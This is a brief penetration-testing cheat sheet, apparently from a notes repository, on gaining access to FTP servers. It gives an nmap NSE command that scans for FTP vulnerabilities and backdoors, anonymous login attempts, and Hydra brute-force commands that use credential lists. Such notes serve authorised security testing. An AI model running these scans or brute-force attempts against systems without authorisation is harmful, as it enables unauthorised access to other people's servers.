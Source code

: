 # Background
If you can't get access to FTP through these steps, then you need credentials from some other area to authenticate.

# Exploit

## Test NSE Common Vulnerabilities
NSE has a number of scripts available to test for common vulnerabilities in this service.
```
nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 [IP]
```

## Anonymous Login
Many FTP servers allow anonymous users to authenticate.  Always attempt to login with anonymous credentials. 
``` 
ftp [IP] username: [anonymous or anon] password: [anonymous or password] 
``` 

## Brute Force
Hydra has a built-in module for attempting usernames and passwords over FTP.
```
hydra -t 1 -L [username list/file] -P [password list/file] -vV ftp://[IP]:21
```
```
hydra -t 1 -C [colon separated username and password list/file] -vV ftp://[IP]:21 
```
